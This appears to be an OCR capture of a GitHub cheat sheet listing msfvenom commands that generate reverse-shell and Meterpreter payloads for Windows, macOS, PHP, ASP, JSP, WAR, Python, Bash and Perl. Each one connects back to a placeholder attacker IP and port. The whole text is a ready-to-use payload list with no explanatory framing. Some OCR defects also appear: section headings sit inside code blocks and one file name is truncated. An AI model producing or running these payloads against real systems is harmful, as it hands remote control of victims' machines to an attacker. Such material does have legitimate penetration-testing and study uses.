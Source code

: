 - **Windows**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

- **Mac**

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Web Payloads
```

- **PHP**

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

- **ASP**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

- **JSP**

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

- **WAR**

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.wa
Scripting Payloads
```

- **Python**

```shell
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

- **Bash**

```shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

- **Prel**

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
